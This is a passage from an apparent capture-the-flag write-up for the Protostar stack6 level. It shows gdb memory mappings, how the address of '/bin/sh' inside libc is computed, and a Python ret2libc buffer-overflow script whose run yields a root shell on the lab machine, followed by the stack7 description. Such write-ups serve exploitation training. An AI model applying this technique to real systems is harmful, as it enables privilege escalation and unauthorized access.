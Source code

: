 ``` shell
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) quit
.....
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

I use `gdb` to find the base address of **libc** in memory (0xb7e97000). Then, I use strings to locate the offset of **"/bin/sh"** inside libc (0x11f3bf). 

By adding these two values together, I compute the address of **"/bin/sh"**: 0xb7e97000 + 0x11f3bf = 0xb7fb63bf.

Here is my script:

``` shell
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
system = struct.pack("I", 0xb7ecffb0)
fake_ret = "A" * 4
bin_sh = struct.pack("I", 0xb7fb63bf)

print padding + system + fake_ret + bin_sh
```

And we beat this level using `Ret2libc` ^^

``` shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT���AAAA�c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

## Stack 7

Description:

>Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.
>
>This level is at /opt/protostar/bin/stack7
